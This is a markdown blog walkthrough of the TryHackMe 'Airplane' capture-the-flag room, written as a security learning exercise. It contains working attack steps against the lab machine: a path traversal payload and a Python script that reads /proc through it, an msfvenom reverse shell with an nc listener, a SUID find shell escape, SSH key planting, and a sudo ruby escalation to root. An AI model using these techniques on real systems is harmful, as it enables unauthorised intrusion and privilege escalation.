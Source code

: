 +++
title = 'Airplane THM Walkthrough'
date = 2024-06-17T07:17:09-04:00
summary = 'A walkthrough of a medium room in TryHackMe. A great room needing critical thinking to exploit path traversal attacks to scripting to manipulate a gdbserver process to a tricky privilege escalation by ruby.'
+++

# Airplane TryHackMe Walkthrough

![](/images/airplane/airplane.png)
Such a fun challenge tbh. First add your *ip* to */etc/hosts*

After booting out machine, the first thing is to perform enumeration. I first scanned with nmap and got some interesting results:
![](/images/airplane/airplanescan.png)
Port 22 -> Just ssh. We wouldn't get to this first
Port 6048 -> NOTHING running! This left me confused
Port 8000 -> http running. Interesting! I navigated to the website

![](/images/airplane/airplaneport8000.png)
Just an html site. I viewed page source if any hints, none. Checked if *robots.txt* exist, it doesn't.\
The next thing I always do is run directoty scanners to find interesting pages, but none
![](/images/airplane/airplanedirsearch.png)\
Dirb gave nothing too :( \
After been stuck for sometime, I looked at the url and suspected it could be vulnerable to path traversal due to its structure /?page=\
I tried the obvious attack payload ../../../../../etc/passwd and lol
![](/images/airplane/airplanepasswdfile.png)

Going through the passwd file, we find 2 users, carlos and hudson

Now here is where I got stuck the most. After a day, or so, I started thinking about the port open that had nothing. After some research, I found that there was I way I could check the processes running on the machine. I used GPT to assist me write a script to extract these processes.(Yes, AI will make you a good security analyst if you know how to use it well). The script:

```
import requests

# Base URL of the target vulnerable to path traversal
base_url = 'http://airplane.thm:8000/?page='

# Function to check and save process names
def check_processes():
    with open('process.txt', 'w') as file:
        for pid in range(1, 1001):
            url = f'{base_url}../../../../../../../../proc/{pid}/comm'
            response = requests.get(url)
            if response.status_code == 200 and response.text.strip() != "Page not found" and response.text.strip():
                file.write(f'PID {pid}: {response.text.strip()}\n')

# Run the function
check_processes()
```
So the processes are output in the file process.txt. Going through them, I find one interesting one, airplane

![](/images/airplane/airplaneairplaneprocess.png)
Figured it must be the one running on port 6048, and it is a gdbserver process.

Searching on searchsploit, found an exploit
![](/images/airplane/airplanesearchsploit.png)

For the exploit, you need a reverse shell code, which we can generate by msfvenom
> msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.4.84.61 LPORT=1234 PrependFork=true -o shell.bin

Replace your ip. Open another terminal window and listen on an empty port with netcat
> nc -nvlp 1234

Now run the python script
![](/images/airplane/airplanesendpayload.png)

A reverse shell is created, for the user hudson
![](/images/airplane/airplanereverseshell.png)

Stabilize the shell by:
> python3 -c 'import pty; pty.spawn("/bin/bash")'

I checked /home/hudson, but nothing. It means we need to do lateral escalation to go to user carlos. Now I tried maybe checking *sudo -l* but it asks for password. Tried multiple stuff but settled on checking SUID
![](/images/airplane/airplanesuid.png)

I was interested by the SUID find, so it checked on my goto to privilege escalation tool, [GTFOBins](https://gtfobins.github.io/)
![](/images/airplane/airplanefindgtfobins.png)

Exploit by the command
> ./find . -exec /bin/sh -p \; -quit

![](/images/airplane/airplanesuidexploit.png)

We get euid of carlos while on user hudson. cat /home/carlos/user.txt for first flag

Now we need to do **Privilege Escalation to become Root**

But nothing much we can do from hudson. But since we can now create files on /home/carlos, we can create an ssh key file and use it to login as carlos.\
On your machine, generate ssh keys by:
> ssh-keygen

![](/images/airplane/airplanessh-keygen.png)

Now copy your keygen.pub to /home/carlos/.ssh/authorized_keys
![](/images/airplane/airplaneauthorizedkeys.png)

Perfect, now head on to ssh via the other private key
> ssh -i airplane_rsa carlos@10.10.238.182

![](/images/airplane/airplanesshlogin.png)

Niceeee!! We in as Carlos. Trying *sudo -l*, carlos can exploit some commands, ruby, as root without root password:
![](/images/airplane/airplanesudo-l.png)

I head to GTFOBins, and get this command to exploit ruby as root
> sudo ruby -e 'exec "/bin/sh"'

The problem is it will require carlos password, which we don't have. Damn! I remembered though you can run a file from another directory by going back using ../ the proceeding to what you need to run. So, we can run the file ruby from the directory /root. First, put the escalation command in a directory like /tmp

> echo 'exec "/bin/sh"' > /tmp/sudo.rb

Now we can execute it from root:
> sudo /usr/bin/ruby /root/../tmp/sudo.rb

![](/images/airplane/airplanesudoescalation.png)

There! We get root privileges!! FUN!!